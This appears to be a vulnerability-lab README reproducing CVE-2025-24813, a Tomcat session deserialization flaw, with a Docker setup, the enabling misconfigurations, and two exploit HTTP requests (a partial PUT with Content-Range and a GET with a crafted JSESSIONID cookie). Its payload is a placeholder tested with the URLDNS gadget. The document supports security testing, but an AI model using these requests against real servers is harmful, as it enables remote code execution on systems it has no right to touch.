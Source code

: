 # Tomcat Session Deserialization Remote Code Execution (CVE-2025-24813)

[中文版本(Chinese version)](README.zh-cn.md) 

Apache Tomcat is a widely used open-source implementation of the Java Servlet, JavaServer Pages, Java Expression Language, and WebSocket technologies.

A deserialization vulnerability was found in Apache Tomcat from 11.0.0-M1 through 11.0.2, from 10.1.0-M1 through 10.1.34, from 9.0.0.M1 through 9.0.98. It occurs when Tomcat is configured with both writable DefaultServlet (readonly=false) and file-based session persistence. The combination allows attackers to write arbitrary files to the server and trigger deserialization of these files by manipulating the JSESSIONID cookie, ultimately leading to remote code execution.

- <https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq>
- <https://github.com/charis3306/CVE-2025-24813>
- <https://forum.butian.net/article/674>

## Environment Setup

Execute the following commands to start a vulnerable Tomcat 9.0.97 server:

```
docker compose build
docker compose up -d
```

After the server starts, you can access the Tomcat example page by visiting `http://your-ip:8080`.

## Vulnerability Reproduction

The vulnerability exists due to two key misconfigurations in Tomcat. First, the DefaultServlet is configured with readonly=false, allowing file uploads:

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Second, Tomcat is configured to use file-based session persistence.

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

Both configurations use the same default storage path: `$CATALINA_BASE/work/Catalina/localhost/ROOT`.

When sending a partial PUT request, Tomcat converts path separators (/) in the file path to periods (.) and temporarily stores the file in the session storage directory. By crafting a specific request, we can write a malicious serialized object to this directory.

To exploit this vulnerability, first send a partial PUT request with the Content-Range header to write a file named `.deserialize.session` in the temporary directory (I use the URLDNS gadget for testing purposes):

```
PUT /deserialize/session HTTP/1.1
Host: your-ip:8080
Content-Length: 1234
Content-Range: bytes 0-5/10

deserialize content
```

![](1.png)

Then, send another request with a manipulated JSESSIONID cookie to trigger deserialization of the file:

```
GET / HTTP/1.1
Host: your-ip:8080
Cookie: JSESSIONID=.deserialize


```

![](2.png)

As you can see, the URLDNS gadget is successfully deserialized, and the DNS request is sent:

![](3.png)

In a real attack scenario, the "deserialize content" would be replaced with a malicious serialized Java object that can execute arbitrary code when deserialized by web applications.

